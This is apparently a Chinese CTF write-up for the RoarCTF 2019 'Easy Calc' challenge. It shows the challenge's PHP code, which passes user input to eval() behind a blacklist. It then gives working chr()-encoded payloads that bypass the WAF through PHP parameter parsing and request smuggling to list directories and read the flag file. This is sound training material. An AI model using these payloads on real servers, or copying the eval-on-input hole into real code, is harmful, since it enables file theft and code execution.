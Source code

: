 # 绕过WAF ？？？

[BUUCTF在线评测](https://buuoj.cn/challenges#[RoarCTF 2019]Easy Calc) 

```php+HTML
<?php
error_reporting(0);
if(!isset($_GET['num'])){
    show_source(__FILE__);
}else{
        $str = $_GET['num'];
        $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]','\$','\\','\^'];
        foreach ($blacklist as $blackitem) {
                if (preg_match('/' . $blackitem . '/m', $str)) {
                        die("what are you want to do?");
                }
        }
        eval('echo '.$str.';');
}
?>
```

- **chr() 函数**：从指定的 ASCII 值返回字符。 ASCII 值可被指定为十进制值、八进制值或十六进制值。八进制值被定义为带前置0，而十六进制值被定义为带前置 0x。
- **file_get_contents() 函数：**把整个文件读入一个字符串中。该函数是用于把文件的内容读入到一个字符串中的首选方法。如果服务器操作系统支持，还会使用内存映射技术来增强性能。
- **PHP的字符串解析特性：**PHP需要将所有参数转换为有效的变量名，因此在解析查询字符串时，它会做两件事：1.删除空白符 2.将某些字符转换为下划线（包括空格）【当waf不让你过的时候，php却可以让你过】。假如**waf不允许num变量传递字母，可以在num前加个空格，这样waf就找不到num这个变量了**，因为现在的变量叫“ num”，而不是“num”。**但php在解析的时候，会先把空格给去掉**，这样我们的代码还能正常运行，还上传了非法字符。
- **scandir() 函数：**返回指定目录中的文件和目录的数组。

![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/c462a71e946d03e20bb81f2913a1d128.png)

### 方法一：PHP的字符串解析特性

num前加个空格：`/calc.php? num=phpinfo()`    (这句话试探一下能不能被正常读取)

由于“/”被过滤了，所以我们可以使用chr(47)来进行表示，进行目录读取：
`calc.php? num=1;var_dump(scandir(chr(47)))`

![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/95a476c38aadc434277a1555565b64c5.png)

构造：`/flagg——chr(47).chr(102).chr(49).chr(97).chr(103).chr(103)`
payload：`calc.php? num=1;var_dump(file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103)))`

### 方法二：http走私攻击

构造：`/flagg——chr(47).chr(102).chr(49).chr(97).chr(103).chr(103)`
payload：`/calc.php?num=file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103))`


![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/7259d6bd06b9048b630a90c4520fb957.png)

### 知识点：file_get_contents() 

**语法：**

```
file_get_contents(path,include_path,context,start,max_length)
```

| 参数         | 描述                                                         |
| ------------ | ------------------------------------------------------------ |
| path         | 必需。规定要读取的文件。                                     |
| include_path | 可选。如果您还想在 include_path（在 php.ini 中）中搜索文件的话，请设置该参数为 '1'。 |
| context      | 可选。规定文件句柄的环境。context 是一套可以修改流的行为的选项。若使用 NULL，则忽略。 |
| start        | 可选。规定在文件中开始读取的位置。                           |
| max_length   | 可选。规定读取的字节数。                                     |

**！！！该函数是二进制安全的。（意思是二进制数据（如图像）和字符数据都可以使用此函数写入。）**

```php
<?php
echo file_get_contents("test.txt");
?>
    
    This is a test file with test text.
```

